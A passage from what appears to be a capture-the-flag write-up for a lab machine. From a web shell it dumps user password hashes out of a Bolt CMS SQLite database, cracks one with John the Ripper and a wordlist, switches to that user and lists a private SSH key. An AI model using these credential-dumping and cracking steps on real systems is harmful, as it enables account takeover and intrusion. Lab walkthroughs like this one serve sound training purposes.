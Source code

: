 ```bash
www-data@Erit:/var/www/html/app/database$ sqlite3 bolt.db
SQLite version 3.16.2 2017-01-06 16:32:41
Enter ".help" for usage hints.
sqlite> .tables
bolt_authtoken          bolt_field_value        bolt_pages            
bolt_blocks             bolt_homepage           bolt_relations        
bolt_content_changelog  bolt_log                bolt_showcases        
bolt_cron               bolt_log_change         bolt_taxonomy         
bolt_entries            bolt_log_system         bolt_users            
sqlite> SELECT * FROM bolt_users;
1|admin|$2y$10$./wlUzesFrd3R6EIgLFC0O5w1IewdmrkUJnhALixHH6jbqvMcegCC||0|a@a.com|2025-08-09 14:27:10|192.168.100.1|[]|1|||||["root","everyone"]
2|wildone|$2y$10$ZZqbTKKlgDnCMvGD2M0SxeTS3GPSCljXWtd172lI2zj3p6bjOCGq.|Wile E Coyote|0|wild@one.com|2020-04-25 16:03:44|192.168.100.1|[]|1|||||["editor"]
sqlite> 
```

<img width="1131" height="285" alt="image" src="https://github.com/user-attachments/assets/2de02d1a-d7e9-457a-9a6b-370e025aa242" />

```bash
:~/EritSecurusI# john wildoneHash --wordlist=/usr/share/wordlists/rockyou.txt 
```

<img width="1141" height="265" alt="image" src="https://github.com/user-attachments/assets/298a151f-64c3-4c42-be96-967117e8de8c" />

```bash
www-data@Erit:/var/www/html/app/database$ su wileec
Password: 
$ whoami
wileec
$ SHELL=/bin/bash script -q /dev/null
wileec@Erit:/var/www/html/app/database$ cd /home/wileec
wileec@Erit:~$ ls -lah
total 28K
drwxr-xr-x 4 wileec wileec 4.0K Apr 25  2020 .
drwxr-xr-x 4 root   root   4.0K Apr 25  2020 ..
-rw-r--r-- 1 wileec wileec  220 May 15  2017 .bash_logout
-rw-r--r-- 1 wileec wileec 3.5K May 15  2017 .bashrc
-rw-r--r-- 1 wileec wileec  675 May 15  2017 .profile
drwxr-xr-x 2 wileec wileec 4.0K Apr 25  2020 .ssh
-rw-r--r-- 1 root   root     21 Apr 25  2020 flag1.txt
```

```bash
wileec@Erit:~$ cd .ssh
wileec@Erit:~/.ssh$ ls -lah
total 20K
drwxr-xr-x 2 wileec wileec 4.0K Apr 25  2020 .
drwxr-xr-x 4 wileec wileec 4.0K Apr 25  2020 ..
-rw------- 1 wileec wileec 1.7K Apr 25  2020 id_rsa
-rw-r--r-- 1 wileec wileec  393 Apr 25  2020 id_rsa.pub
-rw-r--r-- 1 wileec wileec  222 Apr 25  2020 known_hosts
```
